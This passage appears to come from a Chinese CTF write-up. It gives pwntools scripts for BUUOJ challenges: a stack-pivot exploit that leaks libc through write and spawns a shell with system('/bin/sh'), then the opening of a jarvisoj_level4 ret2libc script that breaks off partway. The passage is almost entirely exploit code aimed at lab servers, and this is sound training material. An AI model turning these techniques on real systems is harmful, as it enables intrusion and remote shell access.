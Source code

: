 在pop之后，esp应指向s+4的位置，这里我们写入write函数读取libc基地址，然后返回到vul_function中，因为vul_function中能够直接在s中写入很多字节，因此就相当于我们直接修改ebp后面的返回地址。将获取的system函数和'/bin/sh'字符串地址写入即可getshell。

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29191)
elf = ELF('./pwn')

# construct fake stack
payload = p32(elf.symbols['m1'] + 20)
payload += p32(elf.plt['write'])
payload += p32(elf.symbols['vul_function'])	# return address, return to function
payload += p32(1)					# first argument of write: stdout
payload += p32(elf.got['write'])	# second argument of write: .got address of 'write'
payload += p32(4)					# third argument of write: write length

io.sendlineafter(b'What is your name?', payload)

payload = cyclic(0x18)
payload += p32(elf.symbols['s'])	# fake ebp
payload += p32(0x8048511)			# return to 'leave; retn' to change rsp into .bss segment

io.sendafter(b'What do you want to say?', payload)

write = u32(io.recv(4))
print(hex(write))
libc = LibcSearcher('write', write)
base = write - libc.dump('write')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

# we can change the stack after ebp directly through 'vul_function'
# now the ebp points to s+8, so fill 12 bytes of garbage into s first
payload = p32(0xdeadbeef) * 3
payload += p32(sys)
payload += p32(0xdeadbeef)
payload += p32(binsh)

io.sendlineafter(b'What is your name?', payload)
io.sendlineafter(b'What do you want to say?', b'Hacked')

# gdb.attach(io)
io.interactive()
```
# buu035-jarvisoj_level4
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 26702)
elf = ELF('./pwn')

payload = cyclic(136 + 4)
payload += p32(elf.plt['write'])
payload += p32(elf.symbols['vulnerable_function'])
payload += p32(1)
payload += p32(elf.got['read'])
```
